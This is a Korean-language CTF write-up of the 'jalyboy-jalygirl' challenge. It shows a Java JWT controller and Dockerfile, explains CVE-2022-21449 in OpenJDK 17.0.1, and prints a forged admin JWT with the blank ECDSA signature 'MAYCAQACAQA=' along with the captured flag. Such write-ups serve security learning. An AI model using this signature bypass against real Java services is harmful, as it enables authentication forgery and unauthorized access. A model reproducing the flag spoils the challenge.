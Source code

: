 ## jalyboy-jalygirl

```java
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}

```

이전 문제와 다르게 es256 알고리즘을 이용한 서명 검사가 추가되었다.

```Dockerfile
FROM openjdk:17.0.1-jdk-slim

RUN groupadd -g 3000 -o guest
RUN useradd -m -u 1000 -g 3000 -o -s /bin/bash guest
USER guest

WORKDIR /usr/app
```

해당 문제에선 openjdk 17.0.1을 사용하고 있는데 해당 버전의 crypto/ecdsa에는 취약점이 존재하여
공격자가 임의로 생성한 서명값에 대해 올바른 서명으로 인식하도록 하는 것이 가능합니다.

[CVE-2022-21449](https://nvd.nist.gov/vuln/detail/cve-2022-21449)

해당 취약점에 따라 admin으로 jwt token의 body 부분을 수정한 뒤
서명 부분에 `MAYCAQACAQA=`를 추가하면 플래그를 획득할 수 있습니다.

```
http://34.85.123.82:10001/?j=eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA
```

```
LINECTF{abaa4d1cb9870fd25776a81bbd278932}
```